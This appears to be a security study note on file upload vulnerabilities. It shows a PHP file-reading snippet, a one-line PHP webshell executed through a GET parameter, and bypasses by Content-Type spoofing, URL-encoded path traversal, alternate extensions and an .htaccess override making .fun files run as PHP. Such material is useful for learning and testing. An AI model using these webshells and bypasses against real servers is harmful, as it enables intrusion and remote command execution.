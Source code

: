 # File upload vulnerabilities

To read contents of an arbitrary file:
```Php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Simple webshell:
```PHP
// exploit.php content:
<?php echo system($_GET['command']); ?>

// then do the following request:
GET /example/exploit.php?command=id HTTP/1.1
```

When sending your form inputs the browser will send a post request with Content-Type: application/x-www-form-url-encoded. But this cannot be enough for sending binary data like PDF files, etc. For that, Content-Type should be multipart/form-data.

## Web shell upload via Content-Type restriction bypass
Upload a php file
Just change Content-Type header value to image/jpeg or image/png
Boom!

## Web shell upload via path traversal

We first try to upload the file and see the response:
![test](https://github.com/s4nsec/images/blob/main/Pasted%20image%2020220327214544.png)

Now we try directory traversal to see if we can save the file to another directory:
![[Pasted image 20220327214701.png]]
We see that the server prevents our path traversal attempt by removing characters. 

Now we URL encode our input and try again:
![[Pasted image 20220327214828.png]]
BOOM! With a simple URL encode, we can bypass the restriction and save the file to /files directory!

## Insufficient blacklisting of dangerous file types
Sometimes servers block uploading of files with the extension .php, etc.
But we can simply bypass this by changing the extension to .php5, .shtml, etc.

## Overriding server configs
Usually servers have config files in which extensions to be executed are declared.
For a .php file to be executed by a client's request, a developer may add the following to /etc/apache2/apache2.conf:
```
LoadModule php_module /usr/lib/apache2/modules/libphp.so AddType application/x-httpd-php .php
```

Many servers will allow directory specific config files to override or to be added to the global ones. For example, in Apache, directory specific config files are loaded from .htaccess file.
Similarly, IIS server can be configured to do the same via web.config file:
```
<staticContent> <mimeMap fileExtension=".json" mimeType="application/json" /> </staticContent>
```

Let's upload a .htaccess file with our own configuration to make a file with an extension not blocked by the server to be executed as php file.
.htaccess content:
```
AddType application/x-httpd-php .fun
```

Now, if we just change the extension of our php file to .fun, it will not be blocked, and will be uploaded. Then we can call it and have it executed by the server.
